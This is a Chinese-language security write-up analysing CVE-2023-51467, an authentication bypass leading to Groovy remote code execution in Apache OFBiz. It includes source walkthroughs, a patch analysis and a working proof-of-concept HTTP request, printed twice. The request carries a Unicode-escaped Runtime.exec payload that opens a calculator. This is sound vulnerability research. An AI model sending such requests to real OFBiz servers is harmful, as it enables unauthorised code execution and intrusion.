






# 奇安信攻防社区-Apache OFBiz groovy 远程代码执行漏洞分析（CVE-2023-51467）

### Apache OFBiz groovy 远程代码执行漏洞分析（CVE-2023-51467）

Apache OFBiz groovy 远程代码执行漏洞分析（CVE-2023-51467）

作者：le1a@threatbook  
校验：jweny@threatbook

# 漏洞分析

在上一次的漏洞 CVE-2023-49070 中，修复方式仅仅是删除了 XML-RPC 模块，但全局的权限登陆校验的 Filter 仍未修复，导致了依然可以权限绕过去调用其他后台接口。这次漏洞就是与 ProgramExport 模块相关。

ProgramExport 模块是 OFbiz 中的一个模块，用于将 Groovy 脚本导出为 Java 类。它允许您在 OFbiz 中使用 Groovy 脚本，而无需将它们编译成 Java 字节码。

有趣的是，该后台漏洞在 20 年就披露了，而当时由于需要鉴权，所以被官方驳回，而修复的方案仅仅是不允许创建 jsp 文件......





言归正传，根据上一次漏洞的权限绕过 payload 可构造如下 POC：

```http
POST /webtools/control/ProgramExport;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded

groovyProgram=\u006A\u0061\u0076\u0061\u002E\u006C\u0061\u006E\u0067\u002E\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u002E\u0067\u0065\u0074\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u0028\u0029\u002E\u0065\u0078\u0065\u0063\u0028\u0022\u006F\u0070\u0065\u006E\u0020\u002D\u0061\u0020\u0063\u0061\u006C\u0063\u0075\u006C\u0061\u0074\u006F\u0072\u0022\u0029
```

将断点打在 ProgramExport.groovy



入口点在`ControlServlet#doGET()`中，然后调用了`handler.doRequest()`方法。在调用`handler.doRequest()`之前，主要是做请求预处理，包括获取用户会话信息、设置响应头、准备 delegator、dispatcher、security 等对象，以及打印调试日志等。这些预处理为后续的业务处理提供必要的上下文和资源。

跟进到`handler.doRequest()`


这里根据`nextRequestResponse.type`的值来选择后续执行逻辑

而 nextRequestResponse 来自于这里

```java
ConfigXMLReader.RequestResponse successResponse = requestMap.requestResponseMap.get("success");
        if ((eventReturn == null || "success".equals(eventReturn)) && successResponse != null && "request".equals(successResponse.type)) {
            // chains will override any url defined views; but we will save the view for the very end
            if (UtilValidate.isNotEmpty(overrideViewUri)) {
                request.setAttribute("_POST_CHAIN_VIEW_", overrideViewUri);
            }
            nextRequestResponse = successResponse;
        }
```

requestMap 中的 requestResponseMap 以及 success Response 是在解析 controller.xml 配置文件时读取并设置的。

具体代码在 ConfigXMLReader 类的 parseRequestMap 方法中：

```java
public void parseRequestMap(Element requestMapElement) {
  RequestMap requestMap = new RequestMap();
  requestMap.securityAuth = "true".equals(requestMapElement.getAttribute("auth"));
  requestMap.securityCert = "true".equals(requestMapElement.getAttribute("cert"));
  requestMap.securityExternalView = "true".equals(requestMapElement.getAttribute("external-view"));
  requestMap.securityDirectRequest = "true".equals(requestMapElement.getAttribute("direct-request")) ;  
  requestMap.securityHttps = "true".equals(requestMapElement.getAttribute("https"));

  // 解析 event、response 等子元素
  List<? extends Element> childElements = UtilXml.childElementList(requestMapElement);
  for (Element childElement: childElements) {
    if ("event".equals(childElement.getTagName())) {
      // 解析 event 元素  
    } else if ("response".equals(childElement.getTagName())) {
      // 解析 response 元素
      RequestResponse requestResponse = new RequestResponse();
      requestResponse.name = childElement.getAttribute("name");
      requestResponse.type = childElement.getAttribute("type"); 
      requestResponse.value = childElement.getAttribute("value");

      requestMap.requestResponseMap.put(requestResponse.name, requestResponse);  
    } else if ("success".equals(childElement.getTagName())) {
      // 解析 success 响应
      RequestResponse successResp = new RequestResponse();
      successResp.type = childElement.getAttribute("type");
      successResp.value = childElement.getAttribute("value");
      requestMap.requestResponseMap.put("success", successResp);
    }
  }

  // 添加到 ControllerConfig 的 map 中
  ccfg.addRequestMap(requestMap); 
}
```

可以看到，在解析每个`<request-map>`时，会解析出其 success 响应，添加到`requestResponseMap`中，供后续使用。

所以 requestMap 和其中的 responses 都是在启动初始化时从配置文件解析和设置的。

在 controller.xml 中也能看到 type 的值为 view


继续跟进到`renderView()`


这里主要是获取渲染 CONTEXT，并准备好响应头的各种配置，以供后续视图渲染使用。

中间经过几层调用后，来到了关键的`org.apache.ofbizz.widget.model#runSubAction()`


这里执行了 ProgramExport.groovy，而 action 源于上一层调用



这里的 actions 元素也是从视图配置的 XML 文件中获取的。


然后继续跟进到`runAction()`


继续跟进


继续跟进


继续跟进


最终执行了 Groovy 代码



## 补丁分析

在新的补丁中，更改了最后的 login 返回逻辑，如果前面都通过了，不再是根据 requirePasswordChange 的真假来判断，而是直接返回 error，也就是前面传入 Y，使得 requirePasswordChange 为 True 行不通了


但是仔细观察发现，还有一处`return requirePasswordChange ? "requirePasswordChange" : "error";`没有修改


这里使用`isEmpty()`判断是否为空，需要 null 或者长度为 0，所以空字符串正好满足


那是不是 username 和 password 为空就能再次 bypass 呢？？？

经过实际测试发现，在上一个版本的确是可以成功，因为上个版本中的`checklogin`方法调用`login`方法的时候使用的并不是`isEmpty()`，而是判断是否为 null。所以空字符串正好钻了空子，既不等于 null，又满足`isEmpty()`


而新版补丁改为了`isEmpty()`，与后续`login()`校验一致，导致没办法绕过了。

# 漏洞复现

1.  网站首页如下图：


2.使用如下 POC 进行验证

```php
POST /webtools/control/ProgramExport;/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded

groovyProgram=\u006A\u0061\u0076\u0061\u002E\u006C\u0061\u006E\u0067\u002E\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u002E\u0067\u0065\u0074\u0052\u0075\u006E\u0074\u0069\u006D\u0065\u0028\u0029\u002E\u0065\u0078\u0065\u0063\u0028\u0022\u006F\u0070\u0065\u006E\u0020\u002D\u0061\u0020\u0063\u0061\u006C\u0063\u0075\u006C\u0061\u0074\u006F\u0072\u0022\u0029
```


